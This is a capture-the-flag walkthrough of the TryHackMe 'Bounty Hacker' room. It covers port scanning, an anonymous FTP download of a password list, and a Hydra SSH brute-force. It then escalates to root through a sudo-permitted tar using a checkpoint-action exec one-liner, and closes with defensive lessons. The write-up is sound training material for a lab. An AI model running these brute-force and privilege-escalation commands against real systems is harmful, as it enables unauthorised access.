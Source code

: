 https://tryhackme.com/room/cowboyhacker

BoxIP: 10.10.85.238


**Basic Enumeration**


    ┌──(root💀kali)-[/home/kali/bounty]
    └─# rustscan --ulimit 5000 -b 2500 -a 10.10.85.238 -- -A
    .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
    | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
    | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
    `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
    The Modern Day Port Scanner.
    ________________________________________
    : https://discord.gg/GFrQsGy           :
    : https://github.com/RustScan/RustScan :
     --------------------------------------
    Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

    [~] The config file is expected to be at "/root/.rustscan.toml"
    [~] Automatically increasing ulimit value to 5000.
    Open 10.10.85.238:21
    Open 10.10.85.238:22
    Open 10.10.85.238:80
    [~] Starting Script(s)
    [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

    [~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-24 13:52 EDT
    NSE: Loaded 155 scripts for scanning.
    NSE: Script Pre-scanning.
    NSE: Starting runlevel 1 (of 3) scan.
    Initiating NSE at 13:52
    Completed NSE at 13:52, 0.00s elapsed
    NSE: Starting runlevel 2 (of 3) scan.
    Initiating NSE at 13:52
    Completed NSE at 13:52, 0.00s elapsed
    NSE: Starting runlevel 3 (of 3) scan.
    Initiating NSE at 13:52
    Completed NSE at 13:52, 0.00s elapsed
    Initiating Ping Scan at 13:52
    Scanning 10.10.85.238 [4 ports]
    Completed Ping Scan at 13:52, 0.15s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 13:52
    Completed Parallel DNS resolution of 1 host. at 13:52, 0.01s elapsed
    DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 3, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
    Initiating SYN Stealth Scan at 13:52
    Scanning 10.10.85.238 [3 ports]
    Discovered open port 21/tcp on 10.10.85.238
    Discovered open port 22/tcp on 10.10.85.238
    Discovered open port 80/tcp on 10.10.85.238
    Completed SYN Stealth Scan at 13:52, 0.15s elapsed (3 total ports)
    Initiating Service scan at 13:52
    Scanning 3 services on 10.10.85.238
    Completed Service scan at 13:52, 6.31s elapsed (3 services on 1 host)
    Initiating OS detection (try #1) against 10.10.85.238
    Retrying OS detection (try #2) against 10.10.85.238
    Initiating Traceroute at 13:52
    Completed Traceroute at 13:52, 0.15s elapsed
    Initiating Parallel DNS resolution of 2 hosts. at 13:52
    Completed Parallel DNS resolution of 2 hosts. at 13:52, 0.02s elapsed
    DNS resolution of 2 IPs took 0.02s. Mode: Async [#: 3, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
    NSE: Script scanning 10.10.85.238.
    NSE: Starting runlevel 1 (of 3) scan.
    Initiating NSE at 13:52
    NSE: [ftp-bounce 10.10.85.238:21] PORT response: 500 Illegal PORT command.
    NSE Timing: About 99.76% done; ETC: 13:53 (0:00:00 remaining)
    Completed NSE at 13:53, 30.73s elapsed
    NSE: Starting runlevel 2 (of 3) scan.
    Initiating NSE at 13:53
    Completed NSE at 13:53, 0.89s elapsed
    NSE: Starting runlevel 3 (of 3) scan.
    Initiating NSE at 13:53
    Completed NSE at 13:53, 0.00s elapsed
    Nmap scan report for 10.10.85.238
    Host is up, received echo-reply ttl 63 (0.12s latency).
    Scanned at 2022-08-24 13:52:46 EDT for 43s

    PORT   STATE SERVICE REASON         VERSION
    21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Can't get directory listing: TIMEOUT
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.9.2.110
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 1
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgcwCtWTBLYfcPeyDkCNmq6mXb/qZExzWud7PuaWL38rUCUpDu6kvqKMLQRHX4H3vmnPE/YMkQIvmz4KUX4H/aXdw0sX5n9jrennTzkKb/zvqWNlT6zvJBWDDwjv5g9d34cMkE9fUlnn2gbczsmaK6Zo337F40ez1iwU0B39e5XOqhC37vJuqfej6c/C4o5FcYgRqktS/kdcbcm7FJ+fHH9xmUkiGIpvcJu+E4ZMtMQm4bFMTJ58bexLszN0rUn17d2K4+lHsITPVnIxdn9hSc3UomDrWWg+hWknWDcGpzXrQjCajO395PlZ0SBNDdN+B14E0m6lRY9GlyCD9hvwwB
    |   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMCu8L8U5da2RnlmmnGLtYtOy0Km3tMKLqm4dDG+CraYh7kgzgSVNdAjCOSfh3lIq9zdwajW+1q9kbbICVb07ZQ=
    |   256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICqmJn+c7Fx6s0k8SCxAJAoJB7pS/RRtWjkaeDftreFw
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))

Alright so it looks like we have ports 21 (FTP), 22(SSH), and 80(HTTP) open. We should note that port 21 has anonymous log-in enabled so lets go for that low haning fruit first.

    ┌──(root💀kali)-[/home/kali/bounty]
    └─# ftp 10.10.85.238
    Connected to 10.10.85.238.
    220 (vsFTPd 3.0.3)
    Name (10.10.85.238:kali): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> 
    ftp> ls -la 
    229 Entering Extended Passive Mode (|||51503|)
    ^C
    receive aborted. Waiting for remote to finish abort.
    ftp> passive
    Passive mode: off; fallback to active mode: off.
    ftp> ls -la
    200 EPRT command successful. Consider using EPSV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
    drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
    -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
    -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
    226 Directory send OK.
    ftp> get locks.txt
    local: locks.txt remote: locks.txt
    200 EPRT command successful. Consider using EPSV.
    150 Opening BINARY mode data connection for locks.txt (418 bytes).
    100% |***********************************************************************************************************************************************************************|   418        7.03 KiB/s    00:00 ETA
    226 Transfer complete.
    418 bytes received in 00:00 (2.20 KiB/s)
    ftp> get task.txt
    local: task.txt remote: task.txt
    200 EPRT command successful. Consider using EPSV.
    150 Opening BINARY mode data connection for task.txt (68 bytes).
    100% |***********************************************************************************************************************************************************************|    68       58.45 KiB/s    00:00 ETA
    226 Transfer complete.
    68 bytes received in 00:00 (0.33 KiB/s)
    ftp> exit
    221 Goodbye.

Here we grabbed the files that were sitting on the FTP server now that they are on our attacker machine we have an opportunity to investigate what is inside of them.

    ┌──(root💀kali)-[/home/kali/bounty]
    └─# cat locks.txt 
  {{redacted}}

    ┌──(root💀kali)-[/home/kali/bounty]
    └─# cat task.txt  
    1.) Protect Vicious.
    2.) Plan for Red Eye pickup on the moon.

    -lin

Looks like the first one is a potential password list for us to use. The second file (task.txt) gives us a potential username **lin**. using the information gathered lets start an instance of hydra for an online attack to the SSH port

        ┌──(root💀kali)-[/home/kali/bounty]
        └─# hydra -l lin -P locks.txt 10.10.85.238 ssh                                 
        Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-24 13:59:48
        [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
        [DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
        [DATA] attacking ssh://10.10.85.238:22/
        [22][ssh] host: 10.10.85.238   login: lin   password: {{redacted}}

-l = single user name to use

-P = passwordlist to be used

-ssh = the service we will be attacking

We were able to get valid login credentials for the ssh port so lets pop on and see what we have there

**Inital Foothold**

        lin@bountyhacker:~/Desktop$ ls
        user.txt
        lin@bountyhacker:~/Desktop$ cat user.txt
        {{redacted}}

        lin@bountyhacker:~/Desktop$ sudo -l
        [sudo] password for lin: 
        Matching Defaults entries for lin on bountyhacker:
            env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

        User lin may run the following commands on bountyhacker:
            (root) /bin/tar

Alright so we got the user.txt flag and using the sudo -l command we can see that Lin can run /bin/tar as root. Referencing GTFO Bins we can see this binary can be exploited for local PrivEsc


        lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
        tar: Removing leading `/' from member names
        # whoami
        root
        # cd /root
        # ls -la
        total 40
        drwx------  5 root root 4096 Jun  7  2020 .
        drwxr-xr-x 24 root root 4096 Jun  6  2020 ..
        -rw-------  1 root root 2694 Jun  7  2020 .bash_history
        -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
        drwx------  2 root root 4096 Feb 26  2019 .cache
        drwxr-xr-x  2 root root 4096 Jun  7  2020 .nano
        -rw-r--r--  1 root root  148 Aug 17  2015 .profile
        -rw-r--r--  1 root root   19 Jun  7  2020 root.txt
        -rw-r--r--  1 root root   66 Jun  7  2020 .selected_editor
        drwx------  2 root root 4096 Jun  7  2020 .ssh
        # cat root.txt
        {{redacted}}


This was a nice quick box

**Lessons Learned**

**RED**
- Always check for low hanging fruit first
- usernames can often be found in signatures


**BLUE**
- Keep the polocy of least privledge
- Audit Sudo rights for common escilation vectors and black list those commands
- Seal up all FTP traffic and change FTP to SFTP when possible.
- Do not reuse passwords from service to service.












